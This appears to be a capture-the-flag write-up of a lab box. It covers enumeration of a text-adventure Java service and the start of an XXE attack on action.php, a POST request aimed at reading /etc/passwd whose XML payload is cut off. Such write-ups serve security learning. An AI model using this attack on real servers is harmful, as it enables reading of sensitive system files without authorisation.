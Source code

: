 Output Snippets:

    # Initial prompt:
    You find yourself in a cave, what do you do?
    
    # After 'search':
    You can't see anything, the cave is very dark.
    
    # After 'attack':
    You punch the wall, nothing happens.
    
    # After 'lamp':
    You grab a lamp, and it gives enough light to search around
    Action.class
    RPG.class
    RPG.java
    Serialize.class
    commons-io-2.7.jar
    run.sh

# After 'matches':
You find a box of matches, it gives enough fire for you to see that you're in /home/cave/src.

Summary of Discoveries:

    The service presents a text-based adventure.

    The lamp command reveals Java .class and .java files (Action.class, RPG.class, RPG.java, Serialize.class), along with commons-io-2.7.jar and run.sh. This strongly indicates a Java application.

    The matches command reveals the application's location: /home/cave/src.

## 4. Web Application Vulnerability (XXE on action.php)

The presence of action.php on the web server, combined with the discovered Java files, suggested a potential XML External Entity (XXE) vulnerability. This was tested by sending a POST request with an XML payload.

Method Used (via Burp Suite or curl):
    
    A POST request was made to http://10.10.216.57/action.php with the following XML content, attempting to read /etc/passwd.
    
    POST /action.php HTTP/1.1
    Host: 10.10.216.57
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 100
    Origin: http://10.10.216.57
    Connection: close
    Referer: http://10.10.216.57/
    Upgrade-Insecure-Requests: 1
    Content-Type: application/xml
    